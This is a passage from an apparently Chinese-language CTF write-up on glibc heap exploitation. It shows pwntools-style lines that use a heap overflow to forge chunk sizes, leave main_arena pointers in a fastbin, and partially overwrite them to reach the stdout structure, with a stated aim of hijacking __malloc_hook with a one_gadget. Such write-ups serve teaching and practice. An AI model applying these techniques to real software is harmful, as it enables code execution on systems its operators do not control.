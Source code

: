 2.  
劫持  
malloc_hook,  
覆盖成  
one_gadget  
  
3.  
申请触发  
one_gadget  
  
我们先申请几个堆块看看堆布局的情况：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DK5OZOOglM4jF87LURMEUyPIVOZfrvF3icWepUsg07xJkeK4MRLLV4vWuOEufrZat2Km5mmjsxqune0o0ovb0Wg/640?wx_fmt=png "")  
  
此时堆中布局：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DK5OZOOglM4jF87LURMEUyPIVOZfrvF3fmPYELkXcBW6ZMrgLmkpb29EGwiapIJNZOicKJVBEAlsaQa21kHUY5zg/640?wx_fmt=png "")  
  
通过堆溢出，改写  
1  
号堆块的  
size  
位，引起向下合并  
```
free(2)
edit(0,0x70,'A'*0x60+p64(0)+p64(0x181))
```  
  
此时：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DK5OZOOglM4jF87LURMEUyPIVOZfrvF3EbQicAB1IEOrWHIYV0451ia5kXMKaAQlYAbCHoxxnnAFfSjIs7l3ja2A/640?wx_fmt=png "")  
  
我们在通过  
free(1),  
在申请出来，残留  
main_arena  
指针在  
fastbin  
中，  
```
free（1）
add(0x100,'A')
```  
  
  
此时堆中布局：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DK5OZOOglM4jF87LURMEUyPIVOZfrvF3icDDjpcnwP6QicPfcygnXqichjldLgBeGrEjjo32micTOsEFCZyswHZqDQ/640?wx_fmt=png "")  
  
在次利用堆溢出，覆盖  
main_arena  
低地址两字节，劫持到  
stdout  
结构体附近  
```
edit(1,0x120,'A'*0x100+p64(0)+p64(0x71)+'\xdd\x25')#这里没直接用stdout的低字节，而是
stdout-0x43的地址，绕过ubantu16下的堆头检查机制
```  
  